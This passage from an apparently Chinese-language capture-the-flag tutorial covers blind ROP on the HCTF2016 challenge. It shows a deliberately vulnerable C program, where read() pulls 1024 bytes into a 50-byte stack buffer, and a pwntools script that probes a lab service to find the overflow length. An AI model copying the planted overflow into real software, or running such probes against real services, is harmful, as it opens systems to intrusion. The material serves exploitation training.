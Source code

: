 #### 例子(HCTF2016-出题人失踪了)

```c++
  // brop.c
  // gcc -fno-protecter brop.c -o brop
  #include <stdio.h>
  #include <unistd.h>
  #include <string.h>
  int i;
  int check();
  int main(void){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    setbuf(stderr,NULL);
      puts("WelCome my friend,Do you know password?");
    if(!check()){
          puts("Do not dump my memory");
    }else {
          puts("No password, no game");
    }
  }
  int check(){
      char buf[50];
      read(STDIN_FILENO,buf,1024);
      return strcmp(buf,"aslvkm;asd;alsfm;aoeim;wnv;lasdnvdljasd;flk");
  }
```

##### 确定栈溢出长度

```python
  def getbufferfolw_length():
    i = 1
    while True:
      try:
        p = remote('172.17.0.2',10001)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        p.send('a'*i)
        output = p.recv()
        p.close()
        if not output.startswith('No password'): # 修改了返回地址的低8位，可能新的地址指向可执行的区域
        #if "No password" not in output:
          return i-1
        else:
          i += 1
      except EOFError:
        p.close()
        return i-1

  # length = getbufferfolw_length()
  # print "length = %d"%length
  length = 72
```
